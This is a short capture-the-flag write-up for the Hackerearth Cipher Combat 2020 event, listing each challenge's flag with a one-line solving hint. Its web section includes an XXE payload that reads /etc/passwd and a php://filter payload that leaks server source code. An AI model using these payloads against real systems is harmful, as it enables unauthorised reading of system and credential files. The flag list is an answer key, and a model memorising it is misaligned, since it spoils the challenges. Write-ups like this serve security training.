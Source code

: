 
Flags of Cipher Combate CTF Hackerearth 2020

### 1. Reverse Password		
using 'strings' cmd

`HE{W0rK_H@rD_pl@y_Hard3R}`


### 2. Play and Win
using 'strings' cmd

`HE{You_are_a_tic_tac_toe_Ch@mpion}`


### 3. Welcome !!

`HE{Welcome_to_Cipher_Combat}`


### 4. QR-Code!

`HE{Ahhhh!_Y0u_@r3_0N_4!gH7_Tr@cK}`


### 5. Neighbours WiFi !!!
 use stegcracker

`HE{7h!s_!$_$tegn0grPHy}`


### 6. BASE

`HE{K33p_Calm_@nd_Ca4ry_On__Y0U_are_Do!ng_a_Great_j0B}`


### 7. Rotate

`HE{Now_You_Know_How_To_Rotate}`


### 8. CrackME

`HE{You_@re_@_Zip_Cracker}`


### 9. ReadMe

`HE{YoU_are_Absolute_Beginner}`


### 10. Ping

`HE{j@v@_c0d3_1s_m0r3_und3rst@nd@bl3_th@n_sm@l1}`


### 11. My Fav song 	
use online audio morse code detector --> found "QZZAUGPZ" word, this is the pastebin file url
https://pastebin.com/QZZAUGPZ

`HE{4ud10_fil3s_c4n_h1d3_d4t4}`


### 12. Three-words

`HE{talkative_racker_mainstream}`


### 13. Barden 
use stegsolve.jar to find image inside image --> ORC --> reverse brainfuck (x="brainfuck_value"[::-1])
or directly use 'reversefuck' on OCR

`HE{br4inst3gogr4phed}`


### 14. Merge-Me	
 >cmd:- <p> ergecap -w outputfile.pcapng *   [OR]	cat `ls` > x.pcap

`HE{$up3r$3cr3Tu$3R}`


### 15. Crack-Network  		
 aircrack-ng file.cap -w WORDLIST

`HE{budaksetan}`


### 16. NoTe 	

>cmd:- <p> binwalk -e challenge.odt

`HE{h1dd1ng_1nf0_1n_s3cr3t_pl@c3}`


### 17. HIDDEN

`HE{Y0u_G0t_50M3_5K1lLs}`


### 18. Lame Virus
Decompress UPX-compressed


>cmd: <p> upx -d -o file lame-virus.exe

`HE{an0th3er_cl4ssic_m4lwar3}`


### 19. Scroll-Dispatched

use CrypTool then Scytale Cipher with number of turns 5

`HE{i7_n3Ver_g3ts_0ld}`



# Web Challenges

### 20. Lost Cred
just need to add the xml code with some parameter, given as hint in website source code.
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<creds>
	<user>&abc</user>
	<pass>asdf</pass>
</creds>
```

`HE{eCC82cC8CB5fef277401a0A787d1CE1b9f65644F4ef956d5AEfC9fa63A21c842}`


### 21. 2FA
First do the php filter then code review and found sqli and tried to find valid username
```
/index.php/php://filter/convert.base64-encode/resource=vault
```
`HE{wh4t_y0u_br0k3_Da_vAuLt_4ga1n}`

-----------------------------------------------------

